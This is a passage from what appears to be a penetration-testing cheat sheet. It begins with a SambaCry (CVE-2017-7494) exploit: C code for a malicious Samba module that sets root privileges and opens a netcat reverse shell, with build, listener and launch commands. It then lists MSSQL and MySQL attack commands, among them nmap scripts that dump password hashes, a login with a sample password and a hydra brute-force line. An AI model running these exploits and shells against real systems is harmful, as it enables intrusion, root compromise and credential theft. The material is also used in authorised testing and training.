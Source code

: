 If you reiceve 3 pings on your listener then the exploit works. Now let's get a shell :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start a listener
nc -lvp <PORT>

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

---

## MSSQL - 1433

| **Command**                                                                                                                                                                                                                                                                                                 | **Description**                                          |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------- |
| `mssqlclient.py <user>@<FQDN/IP> -windows-auth`                                                                                                                                                                                                                                                             | Log in to the MSSQL server using Windows authentication. |
| `locate mssqlclient.py`                                                                                                                                                                                                                                                                                     | Locate mssqlclient.py                                    |
| `sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248` | NMAP MSSQL Script Scan                                   |
| `sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*`                                                                                                                                                                                                                                                    | Scanning MySQL Server                                    |
| `mysql -u root -pP4SSw0rd -h 10.129.14.128`                                                                                                                                                                                                                                                                 | Interaction with the MySQL Server                        |

### Get information

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```
